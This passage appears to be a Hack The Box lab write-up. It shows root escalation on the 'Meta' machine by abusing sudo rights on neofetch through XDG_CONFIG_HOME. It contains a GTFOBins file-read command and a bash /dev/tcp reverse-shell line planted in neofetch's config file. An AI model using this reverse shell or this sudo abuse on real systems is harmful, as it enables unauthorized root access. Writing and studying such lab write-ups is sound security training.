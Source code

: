 I check [**GTFOBins**](https://gtfobins.github.io/gtfobins/neofetch/) and there is a way to break out of neofetch:

```
LFILE=file_to_read
sudo neofetch --ascii $LFILE
```

Unfortunately we don't have the password for thomas so we can't do this.

I find a **config file for neofetch** in his home directory:

```
thomas@meta:~/.config/neofetch$ ls -al
total 24
drwxr-xr-x 2 thomas thomas  4096 Dec 20 08:33 .
drwxr-xr-x 3 thomas thomas  4096 Aug 30  2021 ..
-rw-r--r-- 1 thomas thomas 14591 Aug 30  2021 config.conf
```

When you run neofetch it reads from this file and it looks like it also has the ability to run commands. If I can point to a different .conf file I should be able to get a root reverse shell that way.

Looking in `env` shows us some XDG variables so we should be able to use **XDG_CONFIG_HOME** here. What this does:

```
$XDG_CONFIG_HOME defines the base directory relative to which user-specific configuration files should be stored. If $XDG_CONFIG_HOME is either not set or empty, a default equal to $HOME/.config should be used. 
```

Changing the config.conf file to:

```
/bin/bash -c "/bin/bash -i >& /dev/tcp/<MY IP>/4444 0>&1"
```

Exporting the environmental variable:

```
export XDG_CONFIG_HOME="$HOME/.config"
```

`env`

```
XDG_CONFIG_HOME=/home/thomas/.config
```

Setting up a listener to catch a reverse shell back from root and then running our sudo command:

`sudo -u root /usr/bin/neofetch \"\"`

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.11.140] 39338
root@meta:/home/thomas/.config/neofetch# 
```

And we have root! I grab the **root.txt** flag and submit it over to HTB.
